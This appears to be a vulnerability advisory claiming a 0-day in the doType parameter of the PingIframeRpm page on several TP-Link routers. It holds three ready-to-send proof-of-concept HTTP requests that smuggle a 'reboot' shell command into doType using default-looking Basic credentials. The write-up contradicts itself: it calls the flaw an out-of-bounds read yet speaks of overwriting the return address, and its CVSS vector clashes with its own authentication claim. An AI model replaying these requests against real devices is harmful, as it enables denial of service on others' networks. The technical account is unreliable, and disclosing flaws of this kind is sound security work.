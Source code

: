 # TP-Link TL-WR841N/TL-WR740N/WR743ND wireless router /userRpm/PingIframeRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in TP-Link TL-WR841N V10、TP-Link TL-WR740N V1/V2 and WR743ND V1 wireless router. Its /userRpm/PingIframeRpm implementation has a security vulnerability in processing doType GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
   - TP-Link TL-WR841N V10、TP-Link TL-WR740N V1/V2、WR743ND V1

## 2 Vulnerability Value

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

   - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
   - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of Exploit
     - Permission Constraints: authentication is required
     - User Interaction: No victim interaction required
   - Scope of Impact: Changed (may affect other components than vulnerable ones)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of vulnerability exploitation: Stable recurrence
   - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect

   - Denial of Service

## 3 PoC

The PoC of TP-Link TL-WR841N is as follows:

```http
GET /YMRZIZIAYMEWMEQA/userRpm/PingIframeRpm.htm?ping_addr=192.168.0.1&doType=ping |reboot;&isNew=old&lineNum=4 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/YMRZIZIAYMEWMEQA/userRpm/PingIframeRpm.htm?ping_addr=192.168.0.1&doType=ping&isNew=old&lineNum=3
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR740N is as follows:

```http
GET /userRpm/PingIframeRpm.htm?ping_addr=192.168.1.2&doType=ping& reboot&isNew=new&sendNum=4&pSize=64&overTime=800&trHops=20 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.1.1/userRpm/DiagnosticRpm.htm
Upgrade-Insecure-Requests: 1

```

The PoC of WR743ND is as follows:

```http
GET /userRpm/PingIframeRpm.htm?ping_addr=www.baidu.com&doType=| reboot;&isNew=new&sendNum=4&pSize=64&overTime=800&trHops=20 HTTP/1.1
Host: 0.0.0.0:49155
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://0.0.0.0:49155/userRpm/DiagnosticRpm.htm
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/PingIframeRpm component implements a security vulnerability in processing the doType GET key parameter. The length of the parameter key of doType can be any length and it is put into the stack without any boundary check, resulting in a read out-of-bounds. An attacker can exploit this vulnerability to overwrite the return address, which may lead to the disclosure of memory-sensitive information and denial of service.

The firmware is simulated by means of simulation, the simulation process and interface are as follows:

![](./imgs/fat.png)

![](./imgs/before.png)

![](./imgs/web.png)

After sending the PoC, a buffer read out-of-bounds memory error occurred, encountered an `unexpected fatal signal 11` error and a BadVA error, causing the program to crash.

![](./imgs/after.png)

![](./imgs/after2.png)

![](./imgs/err.png)

## 5. The basis for judging as a 0-day vulnerability

Search for PingIframeRpm keywords in NVD database, and find three vulnerabilities, namely: CVE-2021-44864, CVE-2017-13772 and CVE-2014-9350, which are denial of service vulnerability of isNew parameter of TP-Link WR886N, stack overflow vulnerability of ping_addr parameter of TP-Link WR940N, and denial of service attack of isNew parameter of TP-Link TL-WR740N. The vulnerability types and parameters of this vulnerability are different, so it is judged as 0-day vulnerability.
